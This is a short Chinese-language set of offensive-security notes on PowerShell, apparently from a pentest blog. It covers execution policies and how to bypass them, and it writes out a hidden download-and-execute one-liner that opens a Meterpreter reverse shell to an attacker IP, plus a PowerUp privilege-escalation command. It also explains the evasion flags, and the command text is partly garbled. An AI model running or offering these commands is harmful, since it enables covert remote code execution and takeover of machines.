


powershell特点
脚本在内存中运行 不需要写入磁盘
可以远程执行 几乎不触发杀毒软件
cmd.exe运行通常会被阻止,但是powershell运行通常不会被阻止
可以用于管理AD

执行策略 powershell默认情况下不能执行脚本
使用
Get-Host 查询当前ps版本



Get-ExecutionPolicy查询当前策略



Restricted 脚本不能被执行(默认)

RemoteSigned 在本地创建的脚本可以运行,从网上下载的不能运行(持有数字证书签名的除外)

AllSigned 仅当脚本由受信任的发布者签名时才能运行

Unrestricted 允许所有脚本运行

使用如下命令设置powershell 执行策略

```powershell
Set-ExecutionPolicy <policy name>

 

powershell.exe -exec bypass -Command "& (Import-Module C:\PowerUp.ps1; Invoke-Allchecks)"

 

powershell.exe -ExecutionPolicy Bypass-WindowsStyle Hidden-NoProfile-NonIIEX(New-ObjectNet.WebClient).DownloadString("http://url"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 80

 

-ExecutionPlicy Bypass (-Exec Bypass):绕过执行安全策略(默认情况下ps的安全策略规定ps不能运行命令和文件)

-WindowStyle Hidden (-W Hidden):隐藏窗口

-NonInteractive (-NonI)非交互模式。PowerShell 不为用户提供交互式的提示。

-NoProfile(-NoP)PowerShell 控制台不加载当前用户的配置文件。

-noexit：执行后不退出Shell。这个参数在使用键盘记录等脚本时非常重要。

-NoLogo：启动不显示版权标志的PowerShell。
```


